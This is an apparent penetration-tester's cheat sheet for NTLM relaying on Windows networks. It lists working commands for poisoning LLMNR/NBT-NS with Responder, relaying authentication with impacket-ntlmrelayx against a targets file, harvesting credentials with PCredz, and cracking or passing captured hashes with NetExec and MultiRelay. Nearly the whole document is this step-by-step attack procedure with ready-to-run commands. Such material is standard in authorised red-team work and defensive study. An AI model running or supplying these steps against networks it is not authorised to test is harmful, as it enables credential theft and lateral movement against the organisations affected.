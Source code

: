 # NTLM Relaying Tactics - Responder, NTLMRelayx, and Pcredz:
By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials.

 ### 1. Turn off SMB Server in Responder.conf. We will be utilizing the SMB Server in impacket-ntlmrelayx.

    $ sudo nano /usr/share/responder/Responder.conf

![Screenshot 2024-10-18 143302](https://github.com/user-attachments/assets/5930d61a-4072-473d-b4f9-9fda7720cf64)

 ### 2. Initiate Responder
    
    $ sudo responder -I eth0 -v

 ### 3. Initiate ntlmrelayx in a separate terminal:

    $ sudo impacket-ntlmrelayx -tf /Desktop/targets -smb2support -r -d -w
   (will provide more victims, but is more intrusive so run in short periods of time, 30 minutes max)

 ### 4. Initiate PCredz in a separate terminal:

    $ cd /opt/tools/PCredz
    $ sudo pipenv run python Pcredz -i eth0

### 5. Once a hash is captured attempt to crack.

### 6. Attempt Pass-the-Hash through NetExec.
    Only NTLM hashes can be utilized for PtH attacks. This excludes NetNTLMv1 and NetNTLMv2.
   
### 7. If hash is cracked use password in NetExec.

**Log Locations of tools used:**

    - /usr/share/responder/logs
    - /opt/tools/PCredz/logs/
    - impacket-ntlmrelayx does not automatically save logs, add '-lf' command and output file location.
   
**Additional References:**

   - https://github.com/lgandx/Responder
   - https://github.com/fortra/impacket
   - https://github.com/lgandx/PCredz
   - https://attack.mitre.org/techniques/T1557/001/
   - https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
   - https://www.giac.org/paper/gcih/34273/pass-the-hash-windows-10/174913#:~:text=The%20NTLMv2%20authentication%20process%20applies,knowledge%20of%20the%20corresponding%20password.

**Additional Tool:**
    python MultiRelay.py -t <Target_Scope> -u ALL
